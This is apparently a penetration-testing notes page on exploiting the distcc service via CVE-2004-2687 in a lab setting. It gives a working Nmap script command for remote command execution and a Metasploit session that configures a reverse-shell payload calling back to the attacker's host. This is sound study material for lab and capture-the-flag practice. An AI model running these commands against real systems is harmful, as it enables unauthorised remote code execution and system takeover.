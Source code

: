 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DISTCC (3632)

## Information

[`distcc`](https://www.distcc.org/) is a distributed compilation tool that allows code to be compiled across multiple machines in a network with the goal of significantly reducing compilation time via workload distribution.

## Exploitation

Based on [CVE-2004-2687](https://nvd.nist.gov/vuln/detail/CVE-2004-2687).

{% tabs %}
{% tab title="Nmap" %}
{% code overflow="wrap" %}
```bash
sudo nmap -p3632 10.10.10.3 --script=distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
{% endcode %}
{% endtab %}

{% tab title="MSF" %}
```bash
# Launching metasploit console
msfconsole -q
# Selecting the module
msf6 > use exploit/unix/misc/distcc_exec
[*] No payload configured, defaulting to cmd/unix/reverse_bash
# Checking configuration options
msf6 exploit(unix/misc/distcc_exec) > show options
# Configuring the required variables
msf6 exploit(unix/misc/distcc_exec) > set payload /cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/misc/distcc_exec) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(unix/misc/distcc_exec) > set LHOST tun0
LHOST => 10.10.14.22
# Executing the exploit
msf6 exploit(unix/misc/distcc_exec) > run
```
{% endtab %}
{% endtabs %}

For an example of exploiting `distcc` see [Lame](../../boxes/easy/lame.md).
